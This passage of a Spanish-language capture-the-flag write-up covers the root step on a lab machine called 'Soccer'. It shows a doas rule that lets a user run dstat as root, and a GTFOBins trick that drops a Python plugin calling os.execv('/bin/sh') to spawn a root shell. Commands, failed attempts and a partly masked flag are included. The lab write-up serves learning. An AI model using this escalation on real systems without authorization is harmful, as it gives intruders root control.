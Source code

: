 El archivo de configuración se llada doas.conf:
```sh
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
Puedo ejecutar el comando dstat como el usuario root, como si de un sudo se tratara. Buscaré en la misma página de antes -gtfobins- el comando dstat. Y tengo algo, para sudo:
```
echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
sudo dstat --xxx
```
Está creando un script en python y lo esta llamando dstat_xxx.py, luego lo ejecuta como --xxx, entiendo que es una operativa especial del comando dstat.

> Dstat nos permite monitorear los recursos del sistema en tiempo real. La vulnerabilidad en el comando se produce porque permite correr scripts arbitrarios en python cargados como plugins externos.

Desde el home de player ejecuto los comandos encontramos en gtfobins:
```sh
player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
player@soccer:~$ dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
$ whoami
player
``` 
Se me olvidó que lo tengo que ejectuar con el doas..que es realmente el comando que me permite ejecutar el comando dstat como root, vuelvo a hacerlo:
```sh
player@soccer:~$ doas dstat --xxx
doas: Operation not permitted
# Como veréis pongo también los fallos.

player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
player@soccer:~$ doas /usr/bin/dstat --xxx
dstat: option --xxx not recognized, try dstat -h for a list of all the options

player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_zzz.py
player@soccer:~$ doas /usr/bin/dstat --zzz
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# whoami
root
# cat /root/root.txt
c5e678cd6ac0fdf8ef9ad7**********
# Pensé que quizás al ser utilizado antes ese dstat_xxx.py por mi ya no se podía usar como script y lo cambié por zzz.
```
Máquina chula. Se aprende con lo del comando doas. El subdominio que había que encontrar para llegar al usuario player pues bueeeno, había que buscar bien.